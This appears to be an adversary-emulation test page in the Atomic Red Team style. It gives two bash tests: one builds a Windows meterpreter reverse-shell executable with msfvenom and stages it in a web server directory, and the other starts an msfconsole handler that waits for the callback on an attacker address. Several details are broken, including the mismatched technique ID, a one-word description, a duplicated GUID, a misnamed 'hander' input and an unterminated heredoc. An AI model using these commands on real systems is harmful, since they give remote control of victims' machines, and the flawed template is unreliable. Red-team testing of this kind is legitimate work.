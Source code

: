# T1000 - Kali Operation Guideline
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/002)
<blockquote>decompression.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create an exploit using msfvenom](#atomic-test-1---create-an-exploit-using-msfvenom)
- [Atomic Test #2 - Set & Run a handler using msfconsole](#atomic-test-2---set--run-a-handler-using-msfconsole)


<br/>

## Atomic Test #1 - Create an exploit using msfvenom
Create an exploit using msfvenom

**Supported Platforms:** bash


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | 4444 |
| format | format | String | exe |
| output_path | output_path | String | /var/www/html/rs_exploit.exe |


#### Attack Commands: Run with `bash`! 
```bash
msfvenom -p #{payload} LHOST=#{LHOST} LPORT=#{LPORT} -f #{format} -o #{output_path}
```

<br/>

## Atomic Test #2 - Set & Run a handler using msfconsole
Guideline of set & run a handler using msfconsole

**Supported Platforms:** bash


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hander | handler | String | exploit/multi/handler |
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | 4444 |


#### Attack Commands: Run with `bash`! 


```bash
cat << EOF
run the cmdlets below in kali(#{LHOST}):
msfconsole
msfconsole>use #{handler}
msfconsole>set PAYLOAD #{payload}
msfconsole>set LHOST #{LHOST}
msfconsole>set LPORT #{LPORT}
msfconsole>exploit
```


#### Dependencies:  Run with `bash`!

<br/>

